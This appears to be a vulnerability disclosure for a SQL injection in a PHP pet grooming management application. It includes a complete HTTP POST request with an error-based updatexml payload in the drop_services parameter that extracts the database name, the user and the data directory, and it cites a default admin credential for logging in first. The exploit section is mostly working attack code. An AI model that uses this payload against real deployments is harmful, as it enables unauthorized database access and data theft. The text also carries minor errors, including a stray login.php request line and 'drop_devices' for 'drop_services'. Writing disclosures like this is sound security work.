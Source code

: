 

# Pet grooming management software - ajax_product.php '**drop_services**' SQL inject

#### Exploit Title: Pet grooming management software - ajax_product.php '**drop_services**' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Pet grooming management software does not filter the content correctly at the "ajax_product.php/drop_services" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /admin/ajax_product.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/
Origin: http://192.168.67.28:8021
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Cookie: PHPSESSID=e68auo56o4aja1o1vp829pfesl
Cache-Control: max-age=0
Content-Length: 45

drop_services=1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#
```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、By examining the admin/ajax_product.php code, it was discovered that the drop_devices parameter was concatenated in the SQL statement

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/codeajaxpro.png)

3、We can construct SQL statements to query the name of the database and the name of  user

payload:`drop_services=1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#`

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/sql-ajaxproduct.png)
